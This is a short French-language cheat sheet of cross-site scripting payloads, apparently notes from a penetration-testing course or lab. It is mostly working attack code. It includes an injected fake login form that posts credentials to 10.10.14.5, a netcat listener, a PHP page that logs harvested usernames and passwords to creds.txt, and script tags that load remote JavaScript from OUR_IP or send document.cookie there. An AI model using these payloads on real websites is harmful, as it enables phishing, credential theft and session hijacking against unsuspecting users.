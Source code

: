 # Defacer

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~js
document.write('<h3>Please login to continue</h3><form action=http://10.10.14.5><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>');
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Sélectionner un élément dans l'inspecteur: CTRL+SHIFT+C
Retirer un élément
```js
document.getElementById('urlform').remove();
```

retirer code suivant avec commentaire : **<! --**

Écouter:
```shell
sudo nc -nvlp 80
```
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~php
<?php
if (isset($_GET['username']) && isset($_GET['password'])) {
    $file = fopen("creds.txt", "a+");
    fputs($file, "Username: {$_GET['username']} | Password: {$_GET['password']}\n");
    header("Location: http://SERVER_IP/phishing/index.php");
    fclose($file);
    exit();
}
?>
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~shell
#placer le code du haut dans index.php
sudo php -S 0.0.0.0:80
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
# Hijacking

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~ html
//Télécharger un script
<script src="http://OUR_IP/script.js"></script>
//n peut utiliser le fichier pour découvrir ce qui est vulnérable
<script src="http://OUR_IP/username"></script>
//ou l'inclure directement
<script>new Image().src='http://OUR_IP/index.php?c='+document.cookie;</script>
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Envoyer les cookies vers notre serveur
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~js
document.location='http://OUR_IP/index.php?c='+document.cookie;
new Image().src='http://OUR_IP/index.php?c='+document.cookie;
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

